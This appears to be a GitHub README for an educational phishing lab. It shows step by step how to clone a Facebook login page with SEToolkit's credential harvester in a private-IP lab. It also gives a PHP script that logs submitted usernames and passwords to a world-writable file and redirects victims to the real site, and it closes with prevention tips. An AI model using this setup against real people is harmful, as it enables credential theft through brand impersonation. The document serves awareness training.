






# Social Engineering Toolkit (SEToolkit) - Phishing Simulation

---

##  Table of Contents
- [📌 Overview](#-overview)
- [⚙️ Requirements](#%ef%b8%8f-requirements)
- [🚀 Setup Guide](#-setup-guide)
  - [1️⃣ Creating a Fake Page](#1%ef%b8%8f⃣-creating-a-fake-page)
  - [2️⃣ Using SEToolkit](#2%ef%b8%8f⃣-using-setoolkit)
  - [3️⃣ Hosting with Apache2](#3%ef%b8%8f⃣-hosting-with-apache2)
- [🔎 Capturing Credentials](#-capturing-credentials)
- [🛡️ Prevention Tips](#%ef%b8%8f-prevention-tips)
- [📚 Research Findings](#-research-findings)
- [📚 Sources](#-sources)

---
## 📌 Overview
This project demonstrates how attackers can use **Social-Engineering Toolkit (SEToolkit)** and **Apache2** to create **phishing attacks** by cloning real login pages and capturing credentials.

⚠️ Disclaimer

This project is for educational and ethical cybersecurity awareness purposes only. Unauthorized use of phishing techniques without proper authorization is illegal. Always perform penetration testing with explicit permission from the target organization.


---

## ⚙️ Requirements
🔹 **Two Machines Needed**  
- 🎮 **Attacker**: Kali Linux (IP: `10.0.0.32`)  

- 💻 **Victim**: Windows/Linux (IP: `10.0.0.34`)  

🔹 **Tools Used**  
- Kali Linux  
- Social-Engineering Toolkit (**SEToolkit**)  
- Apache2 Web Server  
- nano (text editor)  

---

## 🚀 Setup Guide

### 1️⃣ Creating a Fake Page
1. **Open Terminal in Kali Linux** 

	/var/www/html/ - location there is already a webpage with index.html and its related to apache2.   
   ```bash
   cd /var/www/html
   ```
    **Fig-1-Apache2 web page** 

2. **Backup the existing webpage**  
   ```bash
   mv index.html index1.html
   ```
3. **Create a new fake page**  
   ```bash
   nano index.html
   ```
   📝 **Edit this file** to mimic the login page of the target website (e.g., Facebook, Gmail).  
4. **Save and Exit** (`CTRL + X`, then `Y`, then `ENTER`).

---

### 2️⃣ Using SEToolkit
1.	**The threat actor machine (Kali Linux) needs to check its IP address, which will be required later to deliver the fake page. In this case, the IP address is 10.0.0.32.** 
  
**Fig-2 - Kali Machine (Attacker Machine) IP address**

1. **Login as a Root**
   ```bash
   sudo -i
   ```
   **Enter root password**
   **Enter setoolkit to start SEToolkit tool**
     ```bash 
   setoolkit
   ```
2. **Choose Attack Type**
   ```
   1) Social-Engineering Attacks
   ```
3. **Select Attack Method**
   ```
   2) Website Attack Vectors
   ```
4. **Credential Harvester Attack**
   ```
   3) Credential Harvester Attack Method
   ```
5. **Import Custom Page**
   ```
   3) Custom Import
   ```
6. **Enter Attacker IP Address**  
   ```
   Example: 10.0.0.32 - This one is Attacker's IP in this case 
   ```
7. **Specify Path of Fake Login Page**
- **Since we created `index.html` in `/var/www/html/`, enter:**
   ```
   /var/www/html/
   ```
   

   **Fig-3 - /var/www/html**

9. **In this case can be use any option because we have only index.html, I am going to use option 2 so it copy entire folder (HTML).**
   
   **Fig-4 - copy the entire folder**

10. **Enter the website URL to clone:**
**Example: http://www.facebook.com , using the website will redirect the page.**
**•This means once the user enters their credentials, they will be redirected to the real Facebook page, making the attack less suspicious.** **•Note : https://www.facebook.com , this an can be use as well.**
        
   **Fig-5 - Fake facebook**

11. **Disable Apache2** 
- Since this attack runs on port 80, Apache2 must be stopped to avoid conflicts.  
- Press **Y** when prompted. 


12. **Harvester Attack is Ready**
- The victim must access our website, which is running on **10.0.0.32**.  ---

##  Deploy the Attack on Victim Machine (Windows)  

13. **Deploy the Attack on Victim Machine (Windows)**
- The victim machine must be on the same network.  
 

14. **The Victim Must Visit This Fake Page**  
- Threat actors use social engineering techniques to deliver the fake page to the victim.  
- On the victim's machine (Windows), open a web browser.  
- Enter: **http://10.0.0.32**.  
- This will display the fake login page.  
     
   **Fig-5 - Fake facebook page- Education purpose**

---

15. **Capturing Credentials** 
- If the victim enters their username and password, **SEToolkit** will capture and display the credentials on the attacker's machine in real time. 
16. **Viewing Captured Credentials** 
- The attacker (on **Kali Linux**) will see the username and password in the terminal.  

     
   **Fig-5 - Capture Credentials from fake page**


---
&nbsp;


### Without SEToolkit - Hosting fake page with Apache2 webserver
---

###
### 3️⃣ Hosting with Apache2 (Without SEToolkit)

## ⚙️ Requirements
🔹 **Two Machines Needed**  
- 🎮 **Attacker**: Kali Linux (IP: `10.0.0.32`)  

- 💻 **Victim**: Windows/Linux (IP: `10.0.0.34`)  

1. **Create PHP Script to Capture Credentials on Kali Machine**
   ```bash
   nano LoginCapture.php
   ```
   ```php
   <?php
   $file = fopen("credentials.txt", "a");
   fwrite($file, "Username: ".$_POST['username']." Password: ".$_POST['password']."\n");
   fclose($file);
   header('Location: https://www.facebook.com');
   exit();
   ?>
   ```
2. **Create File to Store Captured Data**
   ```bash
   touch credentials.txt
   chmod 777 credentials.txt
   ```
   - OR
    ```bash
   touch credentials.txt
   chmod 644 credentials.txt
   ```
3. **Start Apache2 Server**
   ```bash
   systemctl start apache2
   ```

---

## 🔎 Capturing Credentials
💀 **Victim Machine (Windows/Linux/Mac)** 
 - Open a browser and go to http://10.0.0.32 If the victim enters their credentials, they will be captured. After login it will redirect to real Facebook page and capture the credentials.

```
[+] Username: victim@example.com  
[+] Password: mypassword123
```
📁 **Or view saved credentials manually:**
- On the attacker's Kali machine, run: 
- cat credentials.txt  
- OR, open the file in a browser: http://10.0.0.32/credentials.txt 

```bash
cat credentials.txt
```

---

## 🛡️ Prevention Tips
👉 **Always check the URL** before entering credentials.  
👉 **Enable Multi-Factor Authentication (MFA)** for extra security.  
👉 **Avoid clicking suspicious links** in emails/messages.  
👉 **Use a password manager** to detect fake pages.  
👉 **Ensure HTTPS** on all login pages.  

---

## 📚 Research Findings  

🔹 Attackers use **Social Engineering** to trick users into visiting fake login pages.  
🔹 **DNS Spoofing** & **DHCP Attacks** can be used for phishing, but modern security measures have made them harder to execute.  
🔹 Cybercriminals are evolving—using **legitimate platforms** (Gmail, Outlook) and **real domains** to craft convincing attacks.  
🔹 Most modern browsers detect **basic phishing pages**, making it harder for attackers.  
🔹 **User awareness** is the best defense against social engineering attacks.  

---

## 🔍 Technical Findings – Delivery Methods – Social Engineering  

- Even though security is improving at home, work, and public places, cybercriminals constantly find ways to bypass protections. One common method is **social engineering**—tricking people into giving them access.  
- For example, an attacker might attempt **DNS spoofing** on a public Wi-Fi network to redirect users to fake websites using their machine (e.g., a **Kali Linux** system). However, modern routers and security measures have made this type of attack much harder to execute.  
- Another method is targeting the **DHCP server** to manipulate network settings and redirect traffic. But again, improved security makes this increasingly difficult.  
- **While technical attacks are becoming harder, attackers still rely on human psychology**—tricking users into clicking malicious links, downloading fake files, or entering credentials on fake websites. That’s why **user awareness and caution remain crucial**.  

---

## 🚨 Are We Completely Safe?  

Not necessarily. The key to staying secure is following a **zero-trust mindset**—always verifying before trusting. Even if security systems are strong, attackers rely on **human mistakes** to bypass protections.  

- Hackers are **no longer relying on simple techniques**; they are **building full-fledged infrastructures**—including web servers, fake webpages, and even purchasing real domain names.  
- They use **trusted platforms** like **Gmail and Outlook** to send phishing emails and create **legitimate-looking websites** that bypass security measures such as **DKIM, SPF, and DMARC**, making detection harder.  
- **Threat intelligence** is helping companies detect and block fake servers, malicious websites, and phishing emails before they reach users.  

---

## 🛡️ Staying Safe  

The best way to protect yourself is to **stay aware of social engineering tactics**:  

✔️ **Always verify requests** before providing sensitive information.  
✔️ **Avoid clicking on suspicious links** in emails, messages, or ads.  
✔️ **Be cautious with downloads**—check URLs and file sources.  
✔️ **Trust your instincts**—if something feels off, **don’t proceed**.  

Even if an attack happens, being cautious **minimizes damage** and keeps your **accounts, devices, and identity safe**.  

🔒 **Stay alert, stay secure!**  


---

## 📚 
 


